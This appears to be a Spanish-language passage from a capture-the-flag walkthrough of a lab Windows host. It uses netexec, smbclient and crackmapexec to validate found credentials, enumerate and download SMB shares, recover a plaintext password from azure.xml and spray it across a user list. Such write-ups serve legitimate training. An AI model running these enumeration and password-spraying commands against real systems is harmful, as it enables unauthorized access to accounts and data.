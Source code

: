 Comprobaremos con **netexec** de que se puede acceder al SMB con las credenciales encontradas.

```bash
netexec smb 10.10.10.172 -u SABatchJobs -p 'SABatchJobs' 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/966_vmware_JqYrbeA3ac.png" alt=""><figcaption></figcaption></figure>

Guardaremos las credenciales obtenidas en el archivo "credentials.txt".

```bash
catnp credentials.txt
```

<figure><img src="../../../../../.gitbook/assets/967_vmware_S9UblGPoRP.png" alt=""><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a listar todos los recursos compartidos que tenemos acceso con el usuario "SABatchJobs". Comprobamos que tenemos acceso a una serie de recursos.

```bash
netexec smb 10.10.10.172 -u SABatchJobs -p 'SABatchJobs' --shares
```

<figure><img src="../../../../../.gitbook/assets/969_vmware_brjLpIEEC5.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos al recurso compartido "users$" y nos descargaremos todo el contenido del recurso.

```bash
smbclient //10.10.10.172/users$ -U 'SABatchJobs%SABatchJobs'
```

<figure><img src="../../../../../.gitbook/assets/968_vmware_H2IVxi3uar.png" alt=""><figcaption></figcaption></figure>

Comprobaremos que dentro del recurso compartido había un archivo llamado "azure.xml". Revisando el contenido de dicho archivo, aparece una contraseña en texto plano.

```bash
catnp mhope/azure.xml
```

<figure><img src="../../../../../.gitbook/assets/970_vmware_jamvAaUwdA.png" alt="" width="551"><figcaption></figcaption></figure>

## Credential Brute Force - Crackmapexec

Procederemos a realizar un ataque de fuerza bruta a todo el listado de usuarios que disponemos para verificar si uno de ellos le corresponde la contraseña encontrada en el archivo.xml.

Finalmente comprobamos que el usuario "mhope" su correspondiente credencial es la encontrada.

{% code overflow="wrap" %}
```bash
crackmapexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$' --continue-on-success 2>/dev/null
```
{% endcode %}
